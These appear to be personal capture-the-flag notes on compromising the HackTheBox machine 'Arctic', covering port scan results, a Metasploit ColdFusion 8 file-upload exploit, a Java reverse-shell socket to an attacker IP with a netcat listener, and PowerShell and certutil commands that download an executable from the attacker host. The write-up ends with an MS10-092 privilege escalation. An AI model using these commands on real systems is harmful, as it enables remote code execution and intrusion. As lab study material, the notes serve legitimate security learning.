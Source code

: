 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Arctic
# 25/3/2023
10.10.10.11

----------------------------------------------------
# nmap
----------------------------------------------------
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC


----------------------------------------------------
# exploitation
----------------------------------------------------
10.10.10.11:8500/CFIDE/administrator/

└─$ searchsploit coldfusion
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)                | cfm/webapps/16788.rb


msfconsole
msf6 > search coldfusion
msf6 > use exploit/windows/http/coldfusion_fckeditor
set options
use burp proxy trubleshoot bit
in burp
    Socket socket = new Socket( "10.10.16.3", 4444 );

nc -lvnp 4444


http://localhost:8500/userfiles/file/NQ.jsp

powershell -c wget "http://10.10.16.3:80/writeup.exe" -outfile "exploit.exe" 

 powershell "(new-objectSystem.Net.WebClient).Downloadfile('http://10.10.16.3/writeup.exe', 'writeup.exe')"


use msfconsole and exploit suggester
certutil -urlcache -split -f "http://10.10.16.3/writeup.exe" exploit.exe


----------------------------------------------------
# priv esc
----------------------------------------------------

exploit/windows/local/ms10_092_schelevator
